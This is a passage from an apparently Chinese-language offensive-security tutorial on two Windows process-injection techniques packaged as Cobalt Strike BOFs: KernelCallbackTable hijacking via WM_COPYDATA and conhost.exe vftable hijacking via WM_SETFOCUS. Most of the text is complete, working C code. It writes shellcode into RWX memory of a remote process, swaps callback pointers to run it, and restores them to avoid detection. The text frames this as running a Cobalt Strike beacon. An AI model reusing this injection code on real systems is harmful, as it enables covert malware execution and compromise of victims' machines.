if ( STATUS_SUCCESS != dwErrorCode )
{
    internal_printf("NtWriteVirtualMemory failed (%lu)\n", dwErrorCode);
    goto end;
}
```


## BOF代码实现

以下代码源自TrustSec的Bof仓库：https://github.com/trustedsec/CS-Remote-OPs-BOF/tree/main

```cpp
// user32.dll!apfnDispatch
typedef struct _KERNELCALLBACKTABLE_T {
    ULONG_PTR __fnCOPYDATA;
    ULONG_PTR __fnCOPYGLOBALDATA;
    ULONG_PTR __fnDWORD;
    ULONG_PTR __fnNCDESTROY;
    ULONG_PTR __fnDWORDOPTINLPMSG;
    ULONG_PTR __fnINOUTDRAG;
    ULONG_PTR __fnGETTEXTLENGTHS;
    ULONG_PTR __fnINCNTOUTSTRING;
    ULONG_PTR __fnPOUTLPINT;
    ULONG_PTR __fnINLPCOMPAREITEMSTRUCT;
    ULONG_PTR __fnINLPCREATESTRUCT;
    ULONG_PTR __fnINLPDELETEITEMSTRUCT;
    ULONG_PTR __fnINLPDRAWITEMSTRUCT;
    ULONG_PTR __fnPOPTINLPUINT;
    ULONG_PTR __fnPOPTINLPUINT2;
    ULONG_PTR __fnINLPMDICREATESTRUCT;
    ULONG_PTR __fnINOUTLPMEASUREITEMSTRUCT;
    ULONG_PTR __fnINLPWINDOWPOS;
    ULONG_PTR __fnINOUTLPPOINT5;
    ULONG_PTR __fnINOUTLPSCROLLINFO;
    ULONG_PTR __fnINOUTLPRECT;
    ULONG_PTR __fnINOUTNCCALCSIZE;
    ULONG_PTR __fnINOUTLPPOINT5_;
    ULONG_PTR __fnINPAINTCLIPBRD;
    ULONG_PTR __fnINSIZECLIPBRD;
    ULONG_PTR __fnINDESTROYCLIPBRD;
    ULONG_PTR __fnINSTRING;
    ULONG_PTR __fnINSTRINGNULL;
    ULONG_PTR __fnINDEVICECHANGE;
    ULONG_PTR __fnPOWERBROADCAST;
    ULONG_PTR __fnINLPUAHDRAWMENU;
    ULONG_PTR __fnOPTOUTLPDWORDOPTOUTLPDWORD;
    ULONG_PTR __fnOPTOUTLPDWORDOPTOUTLPDWORD_;
    ULONG_PTR __fnOUTDWORDINDWORD;
    ULONG_PTR __fnOUTLPRECT;
    ULONG_PTR __fnOUTSTRING;
    ULONG_PTR __fnPOPTINLPUINT3;
    ULONG_PTR __fnPOUTLPINT2;
    ULONG_PTR __fnSENTDDEMSG;
    ULONG_PTR __fnINOUTSTYLECHANGE;
    ULONG_PTR __fnHkINDWORD;
    ULONG_PTR __fnHkINLPCBTACTIVATESTRUCT;
    ULONG_PTR __fnHkINLPCBTCREATESTRUCT;
    ULONG_PTR __fnHkINLPDEBUGHOOKSTRUCT;
    ULONG_PTR __fnHkINLPMOUSEHOOKSTRUCTEX;
    ULONG_PTR __fnHkINLPKBDLLHOOKSTRUCT;
    ULONG_PTR __fnHkINLPMSLLHOOKSTRUCT;
    ULONG_PTR __fnHkINLPMSG;
    ULONG_PTR __fnHkINLPRECT;
    ULONG_PTR __fnHkOPTINLPEVENTMSG;
    ULONG_PTR __xxxClientCallDelegateThread;
    ULONG_PTR __ClientCallDummyCallback;
    ULONG_PTR __fnKEYBOARDCORRECTIONCALLOUT;
    ULONG_PTR __fnOUTLPCOMBOBOXINFO;
    ULONG_PTR __fnINLPCOMPAREITEMSTRUCT2;
    ULONG_PTR __xxxClientCallDevCallbackCapture;
    ULONG_PTR __xxxClientCallDitThread;
    ULONG_PTR __xxxClientEnableMMCSS;
    ULONG_PTR __xxxClientUpdateDpi;
    ULONG_PTR __xxxClientExpandStringW;
    ULONG_PTR __ClientCopyDDEIn1;
    ULONG_PTR __ClientCopyDDEIn2;
    ULONG_PTR __ClientCopyDDEOut1;
    ULONG_PTR __ClientCopyDDEOut2;
    ULONG_PTR __ClientCopyImage;
    ULONG_PTR __ClientEventCallback;
    ULONG_PTR __ClientFindMnemChar;
    ULONG_PTR __ClientFreeDDEHandle;
    ULONG_PTR __ClientFreeLibrary;
    ULONG_PTR __ClientGetCharsetInfo;
    ULONG_PTR __ClientGetDDEFlags;
    ULONG_PTR __ClientGetDDEHookData;
    ULONG_PTR __ClientGetListboxString;
    ULONG_PTR __ClientGetMessageMPH;
    ULONG_PTR __ClientLoadImage;
    ULONG_PTR __ClientLoadLibrary;
    ULONG_PTR __ClientLoadMenu;
    ULONG_PTR __ClientLoadLocalT1Fonts;
    ULONG_PTR __ClientPSMTextOut;
    ULONG_PTR __ClientLpkDrawTextEx;
    ULONG_PTR __ClientExtTextOutW;
    ULONG_PTR __ClientGetTextExtentPointW;
    ULONG_PTR __ClientCharToWchar;
    ULONG_PTR __ClientAddFontResourceW;
    ULONG_PTR __ClientThreadSetup;
    ULONG_PTR __ClientDeliverUserApc;
    ULONG_PTR __ClientNoMemoryPopup;
    ULONG_PTR __ClientMonitorEnumProc;
    ULONG_PTR __ClientCallWinEventProc;
    ULONG_PTR __ClientWaitMessageExMPH;
    ULONG_PTR __ClientWOWGetProcModule;
    ULONG_PTR __ClientWOWTask16SchedNotify;
    ULONG_PTR __ClientImmLoadLayout;
    ULONG_PTR __ClientImmProcessKey;
    ULONG_PTR __fnIMECONTROL;
    ULONG_PTR __fnINWPARAMDBCSCHAR;
    ULONG_PTR __fnGETTEXTLENGTHS2;
    ULONG_PTR __fnINLPKDRAWSWITCHWND;
    ULONG_PTR __ClientLoadStringW;
    ULONG_PTR __ClientLoadOLE;
    ULONG_PTR __ClientRegisterDragDrop;
    ULONG_PTR __ClientRevokeDragDrop;
    ULONG_PTR __fnINOUTMENUGETOBJECT;
    ULONG_PTR __ClientPrinterThunk;
    ULONG_PTR __fnOUTLPCOMBOBOXINFO2;
    ULONG_PTR __fnOUTLPSCROLLBARINFO;
    ULONG_PTR __fnINLPUAHDRAWMENU2;
    ULONG_PTR __fnINLPUAHDRAWMENUITEM;
    ULONG_PTR __fnINLPUAHDRAWMENU3;
    ULONG_PTR __fnINOUTLPUAHMEASUREMENUITEM;
    ULONG_PTR __fnINLPUAHDRAWMENU4;
    ULONG_PTR __fnOUTLPTITLEBARINFOEX;
    ULONG_PTR __fnTOUCH;
    ULONG_PTR __fnGESTURE;
    ULONG_PTR __fnPOPTINLPUINT4;
    ULONG_PTR __fnPOPTINLPUINT5;
    ULONG_PTR __xxxClientCallDefaultInputHandler;
    ULONG_PTR __fnEMPTY;
    ULONG_PTR __ClientRimDevCallback;
    ULONG_PTR __xxxClientCallMinTouchHitTestingCallback;
    ULONG_PTR __ClientCallLocalMouseHooks;
    ULONG_PTR __xxxClientBroadcastThemeChange;
    ULONG_PTR __xxxClientCallDevCallbackSimple;
    ULONG_PTR __xxxClientAllocWindowClassExtraBytes;
    ULONG_PTR __xxxClientFreeWindowClassExtraBytes;
    ULONG_PTR __fnGETWINDOWDATA;
    ULONG_PTR __fnINOUTSTYLECHANGE2;
    ULONG_PTR __fnHkINLPMOUSEHOOKSTRUCTEX2;
} KERNELCALLBACKTABLE;

DWORD kernelcallbacktable(PROCESS_INFORMATION* lpProcessInfo, LPBYTE lpShellcodeBuffer, DWORD dwShellcodeBufferSize)
{
    DWORD  dwErrorCode = ERROR_SUCCESS;
    HWND hWnd = NULL;
    DWORD dwProcessId = 0;
    PHMOD hNTDLL = NULL;
    NtQueryInformationProcess_t NtQueryInformationProcess = NULL;
    NtAllocateVirtualMemory_t NtAllocateVirtualMemory = NULL;
    NtReadVirtualMemory_t NtReadVirtualMemory = NULL;
    NtWriteVirtualMemory_t NtWriteVirtualMemory = NULL;
    NtFreeVirtualMemory_t     NtFreeVirtualMemory = NULL;
    PROCESS_BASIC_INFORMATION processBasicInformation;
    intPEB peb;
    KERNELCALLBACKTABLE kernelCallbackTable;
    SIZE_T RegionSize = 0;
    LPVOID lpRemoteShellcodeBuffer = NULL;
    LPVOID lpRemoteKernelCallbackTableBuffer = NULL;
    COPYDATASTRUCT copyDataStruct;
 
 /*
    internal_printf("hThread:               %p\n", lpProcessInfo->hThread);
    internal_printf("hProcess:              %p\n", lpProcessInfo->hProcess);
    internal_printf("dwProcessId:           %u\n", lpProcessInfo->dwProcessId);
    internal_printf("dwThreadId:            %u\n", lpProcessInfo->dwThreadId);
    internal_printf("lpShellcodeBuffer:     %p\n", lpShellcodeBuffer);
    internal_printf("dwShellcodeBufferSize: %lu\n", dwShellcodeBufferSize);
*/

    // Custom LoadLibrary on NTDLL
    hNTDLL = _LoadLibrary(NTDLL_PATH);
    if(NULL == hNTDLL) { goto end; }

    // Get the syscall addresses
    NtQueryInformationProcess = (NtQueryInformationProcess_t)GetSyscallStub(hNTDLL, "NtQueryInformationProcess");
    NtAllocateVirtualMemory = (NtAllocateVirtualMemory_t)GetSyscallStub(hNTDLL, "NtAllocateVirtualMemory");
    NtReadVirtualMemory = (NtReadVirtualMemory_t)GetSyscallStub(hNTDLL, "NtReadVirtualMemory");
    NtWriteVirtualMemory = (NtWriteVirtualMemory_t)GetSyscallStub(hNTDLL, "NtWriteVirtualMemory");
    NtFreeVirtualMemory = (NtFreeVirtualMemory_t)GetSyscallStub(hNTDLL, "NtFreeVirtualMemory");
    if ((NULL == NtQueryInformationProcess) || 
        (NULL == NtAllocateVirtualMemory) || 
        (NULL == NtReadVirtualMemory) || 
        (NULL == NtWriteVirtualMemory) || 
        (NULL == NtFreeVirtualMemory)
    )
    {
        dwErrorCode = ERROR_PROC_NOT_FOUND;
        internal_printf("GetSyscallStub failed (%lu)\n", dwErrorCode);
        goto end;
    }

    // Get the handle to the target process's window
    do
    {
        hWnd = USER32$FindWindowExA(NULL, hWnd, NULL, NULL);
        if ( NULL == hWnd ) { break; }
        USER32$GetWindowThreadProcessId(hWnd, &dwProcessId);
    }
    while (dwProcessId != lpProcessInfo->dwProcessId);
    if (NULL == hWnd)
    {
        dwErrorCode = ERROR_INVALID_WINDOW_HANDLE;
        internal_printf("Failed to find a window handle for PID:%lu\n", lpProcessInfo->dwProcessId);
        goto end;
    }

    // Get the ProcessBasicInformation of the remote process
    intZeroMemory(&processBasicInformation, sizeof(processBasicInformation));
    dwErrorCode = NtQueryInformationProcess(
        lpProcessInfo->hProcess, 
        ProcessBasicInformation, 
        &processBasicInformation, 
        sizeof(processBasicInformation), 
        NULL
    );
    if ( STATUS_SUCCESS != dwErrorCode )
    {
        internal_printf("NtQueryInformationProcess failed (%lu)\n", dwErrorCode);
        goto end;
    }

    // Read in the PEB from the remote process
    intZeroMemory(&peb, sizeof(peb));
    dwErrorCode = NtReadVirtualMemory(
        lpProcessInfo->hProcess, 
        processBasicInformation.PebBaseAddress, 
        &peb, 
        sizeof(peb), 
        &RegionSize
    );
    if ( STATUS_SUCCESS != dwErrorCode )
    {
        internal_printf("NtReadVirtualMemory failed (%lu)\n", dwErrorCode);
        goto end;
    }

    // Read in the kernel callback table from the remote process
    intZeroMemory(&kernelCallbackTable, sizeof(kernelCallbackTable));
    dwErrorCode = NtReadVirtualMemory(
        lpProcessInfo->hProcess, 
        peb.KernelCallbackTable, 
        &kernelCallbackTable, 
        sizeof(kernelCallbackTable), 
        &RegionSize
    );
    if ( STATUS_SUCCESS != dwErrorCode )
    {
        internal_printf("NtReadVirtualMemory failed (%lu)\n", dwErrorCode);
        goto end;
    }

    // Allocate remote shellcode buffer
    RegionSize = dwShellcodeBufferSize + 1;
    dwErrorCode = NtAllocateVirtualMemory(
        lpProcessInfo->hProcess, 
        &lpRemoteShellcodeBuffer, 
        0, 
        &RegionSize, 
        MEM_COMMIT | MEM_RESERVE, 
        PAGE_EXECUTE_READWRITE
    );
    if (STATUS_SUCCESS != dwErrorCode)
    {
        internal_printf("NtAllocateVirtualMemory failed (%lu)\n", dwErrorCode);
        goto end;
    }

    // Write the shellcode to the remote buffer
    dwErrorCode = NtWriteVirtualMemory(
        lpProcessInfo->hProcess, 
        lpRemoteShellcodeBuffer, 
        lpShellcodeBuffer, 
        dwShellcodeBufferSize, 
        &RegionSize
    );
    if ( STATUS_SUCCESS != dwErrorCode )
    {
        internal_printf("NtWriteVirtualMemory failed (%lu)\n", dwErrorCode);
        goto end;
    }

    // Update the Kernel Callback Table to point to our shellcode
    kernelCallbackTable.__fnCOPYDATA = (ULONG_PTR)lpRemoteShellcodeBuffer;

    // Allocate the new Kernel Callback Table buffer
    RegionSize = sizeof(kernelCallbackTable) + 1;
    dwErrorCode = NtAllocateVirtualMemory(
        lpProcessInfo->hProcess, 
        &lpRemoteKernelCallbackTableBuffer, 
        0, 
        &RegionSize, 
        MEM_COMMIT | MEM_RESERVE, 
        PAGE_READWRITE
    );
    if (STATUS_SUCCESS != dwErrorCode)
    {
        internal_printf("NtAllocateVirtualMemory failed (%lu)\n", dwErrorCode);
        goto end;
    }

    // Write the new Kernel Callback Table to the remote buffer
    dwErrorCode = NtWriteVirtualMemory(
        lpProcessInfo->hProcess, 
        lpRemoteKernelCallbackTableBuffer, 
        &kernelCallbackTable, 
        sizeof(kernelCallbackTable), 
        &RegionSize
    );
    if ( STATUS_SUCCESS != dwErrorCode )
    {
        internal_printf("NtWriteVirtualMemory failed (%lu)\n", dwErrorCode);
        goto end;
    }

    // Update the PEB in the remote process to use the new kernel callback table
    dwErrorCode = NtWriteVirtualMemory(
        lpProcessInfo->hProcess, 
        (PBYTE)processBasicInformation.PebBaseAddress + offsetof(intPEB, KernelCallbackTable), 
        &lpRemoteKernelCallbackTableBuffer, 
        sizeof(ULONG_PTR), 
        &RegionSize
    );
    if ( STATUS_SUCCESS != dwErrorCode )
    {
        internal_printf("NtWriteVirtualMemory failed (%lu)\n", dwErrorCode);
        goto end;
    }

    // Trigger the COPYDATA kernel callback function
    intZeroMemory(&copyDataStruct, sizeof(copyDataStruct));
    copyDataStruct.dwData = 1;
    copyDataStruct.cbData = 4;
    copyDataStruct.lpData = &RegionSize;
    USER32$SendMessageA(hWnd, WM_COPYDATA, (WPARAM)hWnd, (LPARAM)&copyDataStruct);

    KERNEL32$Sleep(10);

    // Restore the original kernel callback table
    dwErrorCode = NtWriteVirtualMemory(
        lpProcessInfo->hProcess, 
        (PBYTE)processBasicInformation.PebBaseAddress + offsetof(intPEB, KernelCallbackTable), 
        &peb.KernelCallbackTable, 
        sizeof(ULONG_PTR), 
        &RegionSize
    );
    if ( STATUS_SUCCESS != dwErrorCode )
    {
        internal_printf("NtWriteVirtualMemory failed (%lu)\n", dwErrorCode);
        goto end;
    }

end:
    // Free remote kernel callback table
    if (lpRemoteKernelCallbackTableBuffer)
    {
        NtFreeVirtualMemory(
            lpProcessInfo->hProcess, 
            lpRemoteKernelCallbackTableBuffer, 
            0, 
            MEM_RELEASE | MEM_DECOMMIT
        );
        lpRemoteKernelCallbackTableBuffer = NULL;
    }

    // Free remote shellcode?
    /*
    if (lpRemoteShellcodeBuffer)
    {
        NtFreeVirtualMemory(
            lpProcessInfo->hProcess, 
            lpRemoteShellcodeBuffer, 
            0, 
            MEM_RELEASE | MEM_DECOMMIT
        );
        lpRemoteShellcodeBuffer = NULL;
    }
    */

    return dwErrorCode;
}
```


## 运行演示

在CobaltStrike执行内核回调注入的bof项目，进程注入成功后，源进程会停止通讯，若想要恢复通讯，需将注入进程的beacon会话退出




# Conhost进程注入

## 简介

在Windows7和之后的版本中，Microsoft引入了`conhost.exe`来处理控制台窗口的渲染。比如当你在powershell中运行CS木马，Windows会自动启动一个`conhost.exe`进程来处理这个`powershell.exe`，这两个进程之间存在某种关联，即`conhost.exe`的父进程就是`powershell.exe`

	

此技术的核心是利用`conhost.exe`的虚拟函数表（vftable）来实现进程注入。vftable是一个函数指针数组，用于支持C++的虚拟函数。通过修改vftable中的某些函数指针，可以使它们指向攻击者的恶意代码，从而在函数被调用时执行该代码


## 实现流程

### 1.定义虚函数表结构体

首先定义了一个结构体`ConsoleWindow`, 这是一个虚函数表（vftable）的结构，用于描述 `conhost.exe` 的窗口类

```cpp
typedef struct _vftable_t {
    ULONG_PTR     EnableBothScrollBars;
    ULONG_PTR     UpdateScrollBar;
    ULONG_PTR     IsInFullscreen;
    ULONG_PTR     SetIsFullscreen;
    ULONG_PTR     SetViewportOrigin;
    ULONG_PTR     SetWindowHasMoved;
    ULONG_PTR     CaptureMouse;
    ULONG_PTR     ReleaseMouse;
    ULONG_PTR     GetWindowHandle;
    ULONG_PTR     SetOwner;
    ULONG_PTR     GetCursorPosition;
    ULONG_PTR     GetClientRectangle;
    ULONG_PTR     MapPoints;
    ULONG_PTR     ConvertScreenToClient;
    ULONG_PTR     SendNotifyBeep;
    ULONG_PTR     PostUpdateScrollBars;
    ULONG_PTR     PostUpdateTitleWithCopy;
    ULONG_PTR     PostUpdateWindowSize;
    ULONG_PTR     UpdateWindowSize;
    ULONG_PTR     UpdateWindowText;
    ULONG_PTR     HorizontalScroll;
    ULONG_PTR     VerticalScroll;
    ULONG_PTR     SignalUia;
    ULONG_PTR     UiaSetTextAreaFocus;
    ULONG_PTR     GetWindowRect;
} ConsoleWindow;
```


### 2.获取conhost进程ID

使用`FindWindowsExA`函数遍历所有的`ConsoleWindowClass`窗口，直到找到与目标conhost.exe进程关联的窗口句柄，然后获取该窗口的进程ID。要注意的是，这个ID是控制台应用程序(如cmd或powershell)的进程ID，而不是conhost.exe的

```cpp
// Loop through all the console processes trying to find our target
    do
    {
        hWnd = USER32$FindWindowExA(NULL, hWnd, "ConsoleWindowClass", NULL);
        if ( NULL == hWnd ) { break; }
        USER32$GetWindowThreadProcessId(hWnd, &dwParentProcessId);
        dwProcessId = GetConhostId(dwParentProcessId);
        if ( 0 == dwProcessId )
        {
            continue;
        }
        internal_printf("conhost.exe PID:%lu with PPID:%lu\n", dwProcessId, dwParentProcessId);
    }
    while (dwProcessId != lpProcessInfo->dwProcessId);
```


使用`GetConhostId`函数查找与控制台应用程序关联的 `conhost.exe` 进程，并返回其进程ID

```cpp
DWORD GetConhostId(DWORD dwPPid)
{
    HANDLE hSnap = NULL;
    PROCESSENTRY32 pe32;
    DWORD dwPid = 0;
    
    // Create a toolhelp snapshot
    hSnap = KERNEL32$CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if(INVALID_HANDLE_VALUE == hSnap) { goto end; }
    
    intZeroMemory(&pe32, sizeof(pe32));
    pe32.dwSize = sizeof(PROCESSENTRY32);

    // Get the first process
    if(KERNEL32$Process32First(hSnap, &pe32))
    {
        do
        {
            // Check current process name
            if ( 0 == MSVCRT$_stricmp("conhost.exe", pe32.szExeFile))
            {
                //internal_printf("conhost.exe found with PID:%lu and PPID:%lu\n", pe32.th32ProcessID, pe32.th32ParentProcessID);
                // Is this the child of our parent process?
                if (dwPPid == pe32.th32ParentProcessID )
                {
                    // We found the conhost of our process
                    // Return the process ID
                    dwPid = pe32.th32ProcessID;
                    break;
                }
            }
        } while(KERNEL32$Process32Next(hSnap, &pe32));
    }

end:
    if( (NULL != hSnap) && (INVALID_HANDLE_VALUE != hSnap) )
    { 
        KERNEL32$CloseHandle(hSnap); 
        hSnap = NULL;
    }

    return dwPid;
}
```


### 3.读取vftable

通过窗口句柄获取`GWLP_USERDATA`(用户定义的数据)，这里存储了指向vftable的指针，随后读取目标进程的vftable至本地

```cpp
#ifdef _WIN64
lpUserData = (LPVOID)USER32$GetWindowLongPtrA(hWnd, GWLP_USERDATA);
#else
lpUserData = (LPVOID)USER32$GetWindowLongA(hWnd, GWLP_USERDATA);
#endif
if (NULL == lpUserData)
{
    dwErrorCode = KERNEL32$GetLastError();
    internal_printf("GetWindowLongPtrA failed (%lu)\n", dwErrorCode);
    goto end;
}

// Read in the current vftable pointer from the remote process
dwErrorCode = NtReadVirtualMemory(
    lpProcessInfo->hProcess, 
    lpUserData, 
    (LPVOID)&lpvfTable, 
    sizeof(LPVOID), 
    &RegionSize
);
if ( STATUS_SUCCESS != dwErrorCode )
{
    internal_printf("NtReadVirtualMemory failed (%lu)\n", dwErrorCode);
    goto end;
}

// Read in the vftable from the remote process
intZeroMemory(&consoleWindow, sizeof(consoleWindow));
dwErrorCode = NtReadVirtualMemory(
    lpProcessInfo->hProcess, 
    lpvfTable, 
    &consoleWindow, 
    sizeof(consoleWindow), 
    &RegionSize
);
if ( STATUS_SUCCESS != dwErrorCode )
{
    internal_printf("NtReadVirtualMemory failed (%lu)\n", dwErrorCode);
    goto end;
}
```


### 4.注入shellcode

在目标进程中分配内存，将shellcode写入这块内存。

```cpp
// Allocate the remote shellcode buffer
RegionSize = dwShellcodeBufferSize + 1;
dwErrorCode = NtAllocateVirtualMemory(
    lpProcessInfo->hProcess, 
    &lpRemoteShellcodeBuffer, 
    0, 
    &RegionSize, 
    MEM_COMMIT | MEM_RESERVE, 
    PAGE_EXECUTE_READWRITE
);
if (STATUS_SUCCESS != dwErrorCode)
{
    internal_printf("NtAllocateVirtualMemory failed (%lu)\n", dwErrorCode);
    goto end;
}

// Write the local shellcode to the remote buffer
dwErrorCode = NtWriteVirtualMemory(
    lpProcessInfo->hProcess, 
    lpRemoteShellcodeBuffer, 
    lpShellcodeBuffer, 
    dwShellcodeBufferSize, 
    &RegionSize
);
if ( STATUS_SUCCESS != dwErrorCode )
{
    internal_printf("NtWriteVirtualMemory failed (%lu)\n", dwErrorCode);
    goto end;
}
```


### 5.修改vftable

修改本地的`vftable`结构，使其`GetWindowHandle`函数指针指向存放shellcode的内存地址，再在目标进程分配内存用于存放修改后的vftable，最后将指向vftable的指针修改成修改后的vftable地址

```cpp
// Update the local vftable to point to the shellcode
consoleWindow.GetWindowHandle = (ULONG_PTR)lpRemoteShellcodeBuffer;

// Allocate a remote buffer for the new vftable
RegionSize = sizeof(consoleWindow) + 1;
dwErrorCode = NtAllocateVirtualMemory(
    lpProcessInfo->hProcess, 
    &lpRemoteVTableBuffer, 
    0, 
    &RegionSize, 
    MEM_COMMIT | MEM_RESERVE, 
    PAGE_READWRITE
);
if (STATUS_SUCCESS != dwErrorCode)
{
    internal_printf("NtAllocateVirtualMemory failed (%lu)\n", dwErrorCode);
    goto end;
}

// Write the local vftable to the remote buffer
dwErrorCode = NtWriteVirtualMemory(
    lpProcessInfo->hProcess, 
    lpRemoteVTableBuffer, 
    &consoleWindow, 
    sizeof(consoleWindow), 
    &RegionSize
);
if ( STATUS_SUCCESS != dwErrorCode )
{
    internal_printf("NtWriteVirtualMemory failed (%lu)\n", dwErrorCode);
    goto end;
}

// Update the remote vftable pointer to point to the new remote vftable
dwErrorCode = NtWriteVirtualMemory(
    lpProcessInfo->hProcess, 
    lpUserData, 
    &lpRemoteVTableBuffer, 
    sizeof(ULONG_PTR), 
    &RegionSize
);
if ( STATUS_SUCCESS != dwErrorCode )
{
    internal_printf("NtWriteVirtualMemory failed (%lu)\n", dwErrorCode);
    goto end;
}
```


### 6.触发执行

通过发送 `WM_SETFOCUS` 消息到 `conhost.exe` 窗口，触发vftable中被修改的 `GetWindowHandle` 函数，从而执行Shellcode

```cpp
// Trigger execution
USER32$SendMessageA(hWnd, WM_SETFOCUS, 0, 0);
```


### 7.恢复原始状态

执行完Shellcode后，将vftable恢复到原始状态，以避免引起目标进程的异常或崩溃

```cpp
// Restore the vftable pointer in the remote process
dwErrorCode = NtWriteVirtualMemory(
    lpProcessInfo->hProcess, 
    lpUserData, 
    &lpvfTable, 
    sizeof(ULONG_PTR), 
    &RegionSize
);
if ( STATUS_SUCCESS != dwErrorCode )
{
    internal_printf("NtWriteVirtualMemory failed (%lu)\n", dwErrorCode);
    goto end;
}
```


## 运行测试

与内核回调表进程注入类似，当注入的进程上线后，源进程会停止通讯，直到注入进程的退出后才恢复通讯

	


# END
